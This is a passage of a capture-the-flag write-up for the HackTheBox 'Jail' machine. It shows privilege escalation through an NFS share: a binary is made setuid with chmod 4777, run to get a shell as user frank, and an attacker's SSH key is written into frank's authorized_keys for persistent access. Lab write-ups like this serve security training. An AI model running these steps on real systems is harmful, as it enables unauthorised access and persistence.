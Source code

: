 I then transfer this file over to my attack machine, and make `ice` the owner of this binary using:

```bash
chown ice:ice frank
```

At this point, I mount the `/mnt/nfsshare` same as before, and I run `su ice`. Now as `ice`, I copy the file over to the share and set the proper permissions to it so that everyone could execute it on `jail`:

```bash
cp frank -o /mnt/jail/frank
chmod 4777 /mnt/jail/frank
```

![cp-40](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jail/img/cp-40.png)


Now, I execute this file from `jail` and I spwan a shell as `frank`:

![frank-41](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jail/img/frank-41.png)


Now as frank, I will navigate towards `/home/frank/.ssh`, and write an SSH key for my user `ice`, so I can connect via ssh:

```bash
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFz/1ClT3bpKK912+SHK2hvTIgYAk5rf42UEN06WoQbC nobody@anything' >> authorized_key
```

![write-ssh-42](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jail/img/write-ssh-42.png)


Now I can connect to the SSH as `frank`:
